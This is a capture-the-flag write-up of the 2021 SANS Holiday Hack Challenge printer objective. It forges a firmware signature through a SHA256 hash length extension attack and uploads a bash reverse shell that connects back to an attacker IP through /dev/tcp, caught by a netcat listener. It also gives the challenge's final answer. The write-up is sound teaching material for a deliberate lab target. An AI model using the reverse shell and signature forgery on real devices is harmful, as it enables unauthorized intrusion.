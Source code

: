```yaml
---
title:  "Objective 7: Printer Exploitation - 2021 SANS Holiday Hack Challenge"
date:   "2022-01-05 00:07:00 -0800"
categories: HolidayHack2021
header:
 teaser: /assets/images/HolidayHack2021/printer_site.png
 image: /assets/images/HolidayHack2021/printer_site.png
---
```


We're building some more penetration testing skills in this challenge. 

[Play the 2021 SANS Holiday Hack Challenge](https://2021.kringlecon.com/invite)

## Objective
In this objective, we're asked to do the following:
>Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of ''/var/spool/printer.log'. What is the name of the last file printed (with a ''.xlsx' extension)?

## Hints
- When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.
- [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.
- Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).
- Did you know that if you append multiple firmware files, the last one is processed?

## Enumeration
Heading to [https://printer.kringlecastle.com/](https://printer.kringlecastle.com/) gives us a printer management site.

![Printer Management Site](/assets/images/HolidayHack2021/printer_site.png)

Some of the options under "settings" and "reports" look interesting, but they are all protected by a password.

On the "firmware" tab, we can download the current firmware and upload new firmware, so that's something. Let's download the current firmware to start.

The firmware is a JSON file. Here's what it looks like:

```json
{
	"firmware" : <Giant base-64 encoded string>,
	"signature" : "e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23",
	"secret_length" : 16,
	"algorithm" : "SHA256"

}
```

I can tell that the string is base-64 encoded because it ends with `==`, like many (but not all) base-64 strings.

Seems like the signature is likely some kind of combination of the secret plus the firmware all hashed together.

Let's take the firmware over to [CyberChef](https://gchq.github.io/CyberChef/) to decode it.

We'll throw the big string into the input field and we'll start with a 'From Base64' operation. That gives us mostly garbage out, but I can see some readable text ("firmware.bin") at the beginning and end, so we're on the right track.

Adding a 'Detect File Type' operation tells us it's a zip archive. Let's download this as `current_firmware.zip`

This zip file contains `firmware.bin`. Not much we can do with this file since it's not human-readable at the moment, but it's good to know what's in the zip.

## Exploitation

We can use some of the hints here:
- If we append a second zipped firmware file to our first zipped firmware file, the second one should be the one that executes.
- We can use the [hash_extender](https://github.com/iagox86/hash_extender) tool linked at the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) link to fake the signature with the second file appended.


### Installing Hash Extender
Let's clone the hash_extender repository to our local machine.
```bash
git clone https://github.com/iagox86/hash_extender.git
```

Then we'll compile it:
```bash
cd hash_extender
make
./hash_extender_test
```

The tests passed, so we should be good to go.

### Prepping the Payload

Let's see if we can get away with something simple first. We'll just create a bash script and call it `firmware.bin`.

```bash
#! /bin/bash

/bin/bash -i >& /dev/tcp/<YOUR PUBLIC IP ADDRESS>/9002 0>&1
```

This should send us a reverse shell when it is run. I'm using port 9002 for no particular reason other than the fact that it's unlikely to conflict with any other running processes.

**Note:** Depending on your situation, when doing this, you may need to set up port forwarding on your router to send incoming traffic on port 9002 (or whatever port you chose) to your attacker machine.

Then we can zip the file up:
```bash
zip new_firmware.zip firmware.bin
```

Now we can turn our attention back to hash extender. What it is going to do for us is take the `current_firmware.zip` file, add some padding after it,  append the `new_firmware.zip` file we created, and forge a new signature that works for both files together.

The problem is that hash extender requires us to add the contents of what we want to append (`new_firmware.zip`) as a command-line argument, which doesn't work well for zip files.

The easiest way I found to do this was to encode the `new_firmware.zip` file to hex first using [CyberChef](https://gchq.github.io/CyberChef/).

**Procedure:**
1. Choose "Open file as input" in the top right hand corner of the input box
2. Add a "To Hex" operation to the Recipe
3. Change the delimiter to "None"

Now the output is the hex-encoded version of `new_firmware.zip` and it's ready to go into hash extender.

```bash
./hash_extender --file current_firmware.zip --secret 16 --format sha256 --signature "e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23" --append-format hex -a "<INSERT NEW HEX-ENCODED FIRMWARE>"
```

**What are all these flags?**
- **-file:** This will allow us to use the existing firmware zip file as the "data" just by specifying the filename/filepath.
- **-secret:** This is the length of the secret, which we obtained from the current firmware JSON file.
- **-format:** This is the hash function used to create the signature. This was also obtained from the current firmware JSON file.
- **-signature:** This is the signature that was listed in the current firmware JSON file.
- **-append-format:** We encoded `new_firmware.zip` to hex, so we need to tell hash extender that.
- **-a:** The data we want to append. This is the hex-encoded 'new_firmware.zip' we got from CyberChef.


The output of this command contains a hex-encoded version of our appended firmware and our new signature.

Now we have to change the encoding on the appended firmware from hex to Base64. Back to [CyberChef](https://gchq.github.io/CyberChef/)!

Procedure:
1. Paste the hex-encoded version of the appended firmware into the input field
2. Add a "From Hex" step to the recipe
3. Add a "To Base64" set to the recipe under the "From Hex" step

Now the output should be our Base64-encoded payload!

Let's stick it into the JSON format that the server accepts along with the forged signature from the hash extender output.

I'm calling this file `new_firmware.json`

```json
{
	"firmware" : <Giant base-64 encoded string>,
	"signature" : <Forged Signature>,
	"secret_length" : 16,
	"algorithm" : "SHA256"
}
```

Now let's start a netcat listener in our terminal: 
```bash
nc -lvnp 9002
```

Once we upload `new_firmware.json` to the site, our listener catches a shell!

```bash
listening on [any] 9002 ...
connect to [<IP>] from (UNKNOWN) [34.72.79.63] 49418
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
app@hhc21-printer-v2:/app$
```

Now all we have to do is run:
```bash
cat /var/spool/printer.log
```

Output:
```
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

**Answer:** Troll_Pay_Chart.xlsx